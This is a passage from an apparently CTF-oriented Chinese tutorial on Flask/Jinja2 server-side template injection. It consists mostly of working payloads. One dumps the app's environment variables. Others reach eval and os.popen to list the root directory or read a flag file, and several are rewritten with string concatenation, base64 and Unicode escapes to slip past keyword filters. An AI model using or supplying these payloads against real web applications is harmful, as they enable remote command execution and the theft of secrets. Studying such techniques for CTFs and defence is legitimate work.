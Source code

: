 另一个payload

```
{error.__class__.__init__.__globals__[app].wsgi_app.__globals__[os].environ}
```

# 绕过

## 关键字绕过

### 利用字符串拼接绕过

我们可以利用“+”进行字符串拼接，绕过关键字过滤，例如：

```python
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

只要返回的是**字典类型**的或是**字符串格式**的，即payload中引号内的，在调用的时候都可以使用字符串拼接绕过。

### 利用编码绕过

我们可以利用对关键字编码的方法，绕过关键字过滤，例如用base64编码绕过：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用编码绕过。同理还可以进行rot13、16进制编码等。

### 利用Unicode编码绕过关键字（flask适用）

我们可以利用unicode编码的方法，绕过关键字过滤，例如：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
```
